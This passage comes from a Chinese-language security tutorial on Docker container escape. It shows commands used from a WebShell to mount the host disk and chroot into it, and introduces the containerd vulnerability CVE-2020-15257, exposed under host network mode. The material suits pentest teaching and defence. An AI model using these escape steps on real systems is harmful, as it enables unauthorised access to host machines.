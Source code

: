     ````plain
    实战案例：
    通过漏洞获取 WebShell，查看根目录存在.dockerenv，可通过 fdisk -l 查看磁盘目录，进行挂载目录逃逸：
    ```css
    #Webshell 下操作
    fdisk -l
    mkdir /tmp/test
    mount /dev/sda3 /tmp/test
    chroot /tmp/test bash
    ````
    
    [![](assets/1711471711-c633261b9b3257a5cb6a5088df184785.png)](https://xzfile.aliyuncs.com/media/upload/picture/20211230192224-c344e882-6962-1.png)  
    \### Docker 漏洞  
    这里介绍两个知名的 docker 逃逸漏洞。  
    \#### CVE-2020-15257  
    在 Containerd 1.3.9 版本之前和 1.4.0~1.4.2 版本，使用了--host 网络模式，会造成 containerd-shim API 暴露，通过调用 API 功能实现逃逸。  
    Host 模式特点：
-   共享宿主机网络
-   网络性能无损耗
-   各容器网络无隔离
-   网络资源无法分别统计
-   端口管理困难
-   不支持端口映射
    